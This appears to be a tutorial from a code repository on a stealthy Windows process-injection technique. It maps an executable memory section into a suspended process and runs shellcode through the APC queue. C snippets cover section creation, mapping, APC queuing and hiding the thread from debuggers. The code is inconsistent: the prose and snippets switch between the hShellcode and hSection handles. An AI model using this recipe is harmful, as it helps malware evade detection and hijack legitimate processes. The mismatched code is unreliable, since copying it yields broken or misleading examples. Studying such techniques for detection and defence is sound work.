 # Overview

This method is almost the same as CreateSection: the only difference is that the thread containing the shellcode will be put in an Asynchronous Procedure Calls queue.

An executable section will be created, just as CreateSection: this time however, the section entrypoint, containing the shellcode, will be put in an [Asynchronous Procedure Calls (APC)][APC] queue to finally run it.
This technique is stealthier than the `CreatePatched` one since there are no apperent signs of malware being executed.
For demonstration purposes, the target process will be manually created since we do not want to inject into already running applications into the system.

For the sake of clarity, from now on the executable that is injecting the code will be referred as **injector** process while the application which will be attacked will be the **target** process.

# Process creation

The first thing that has to be done is to create a legit process with [`CreateProcess()`][CreateProcess]. This is accomplished in this way: 
[(source)](CreateSectionAPC.cpp#L102-L116)
```c
if (!CreateProcessW((LPWSTR)app_path, // lpApplicationName
                            NULL,             // lpCommandLine
                            NULL,             // lpProcessAttributes
                            NULL,             // lpThreadAttributes
                            NULL,             // bInheritHandles
                            CREATE_SUSPENDED | DETACHED_PROCESS |
                            CREATE_NO_WINDOW, // dwCreationFlags
                            NULL,                 // lpEnvironment
                            NULL,                 // lpCurrentDirectory
                            &si,                  // lpStartupInfo
                            &pi                   // lpProcessInformation
                        )) {
    DBG_ERROR(("CreateProcess failed, Error = %x\n", GetLastError()));
    return -1;
}
```

Note the `CREATE_SUSPENDED` flag stops the application from starting automatically after the function call.
If the operation succeeds, the `pi` structure will contain all the information about the newly spawned process.

The execution of the application will be resumed later.

# Section creation 

It is now time to create the executable section. It will not be bind to any process, yet.
[(source)](CreateSectionAPC.cpp#L123-L128)
```c
if ((status = ZwCreateSection(&hShellcode, SECTION_ALL_ACCESS, NULL, &maxSize,
                            PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL)) !=
    STATUS_SUCCESS) {
    DBG_ERROR(("ZwCreateSection failed, status : %x\n", status));
    return -1;
}
```
There are several important variables being passed to [`ZwCreateSection()`][ZwCreateSection]: `&hSection`, `SECTION_ALL_ACCESS` and `PAGE_EXECUTE_READWRITE`.

`hSection` is the section handle: it will represent our new section.

`SECTION_ALL_ACCESS` is a bitwise flag which basically grants every permission to the section.

Finally, `PAGE_EXECUTE_READWRITE` makes the section's memory page readable, writeable and **executable**.

# Memory mapping

In order to write into the section, we will have to map a view, a whole or partial mapping of a section object, in the virtual address space of a process.

![MapSection]

The first step is to bind the section to the **injector** process' context in order to copy the shellcode in it. This is done with [`NtMapViewOfSection()`][NtMapViewOfSection]: its
second parameter, in this case the `HANDLE` returned by [`GetCurrentProcess()`][GetCurrentProcess], defines in which process the section will be mapped.
[(source)](CreateSectionAPC.cpp#L132-L138)
```c
if ((status = NtMapViewOfSection(hShellcode, GetCurrentProcess(),
                                &shellcodeSection, NULL, NULL, NULL,
                                &viewSize, inheritDisposition, NULL,
                                PAGE_EXECUTE_READWRITE)) != STATUS_SUCCESS) {
    DBG_ERROR(("NtMapViewOfSection failed, status : %x\n", status));
    return -1;
}
```
Once the shellcode has been copied, we can proceed to map the section into the **target** process.
[(source)](CreateSectionAPC.cpp#L146-L152)
```c
if ((status =
        NtMapViewOfSection(hSection, pi.hProcess, &sectionBaseAddress2, NULL,
                            NULL, NULL, &viewSize, inheritDisposition, NULL,
                            PAGE_EXECUTE_READWRITE)) != STATUS_SUCCESS) {
    DBG_ERROR(("NtMapViewOfSection failed, status : %x\n", status));
    return -1;
}
```
Finally, we have to unmap the view from the **injector**. The section handle `hSection` is closed and set to `NULL` afterwards.
[(source)](CreateSectionAPC.cpp#L156-L158)
```c
ZwUnmapViewOfSection(GetCurrentProcess(), shellcodeSection);
ZwClose(hShellcode);
hShellcode = NULL;
```

# Shellcode execution

The last thing to check out is the actual shellcode execution. This can be achieved by creating a new entry in the APC queue of the process: this entry will point to the entrypoint of the shellcode, `injectedBaseAddress`. In this way, the next time the thread is scheduled, it will run the APC function.
[(source)](CreateSectionAPC.cpp#L170-L172)
```c
if ((status = NtQueueApcThread(pi.hThread, injectedBaseAddress, 0, 0, 0)) !=
    STATUS_SUCCESS) {
    DBG_ERROR(("NtQueueApcThread failed, status : %x\n", status));
    return -1;
}
DBG_SUCC(("Thread created."));

DBG_SUCC(("Resuming main thread...\n"));
ZwSetInformationThread(pi.hThread, 1, NULL, NULL);
ResumeThread(pi.hThread);
```
# Resources

* [Source](CreateSectionAPC.cpp)
* [Header](CreateSectionAPC.h)

[MapSection]: ../resources/MapSection.png?raw=true
[APC]: https://msdn.microsoft.com/it-it/library/windows/desktop/ms681951(v=vs.85).aspx
[CreateProcess]: https://msdn.microsoft.com/en-us/library/windows/desktop/ms682425(v=vs.85).aspx
[GetCurrentProcess]: https://msdn.microsoft.com/en-us/library/windows/desktop/ms683179(v=vs.85).aspx
[VirtualProtectEx]: https://msdn.microsoft.com/en-us/library/windows/desktop/aa366899(v=vs.85).aspx
[ZwCreateSection]: https://msdn.microsoft.com/en-us/library/windows/hardware/ff566428(v=vs.85).aspx
[NtMapViewOfSection]: https://msdn.microsoft.com/en-us/library/windows/hardware/ff556551(v=vs.85).aspx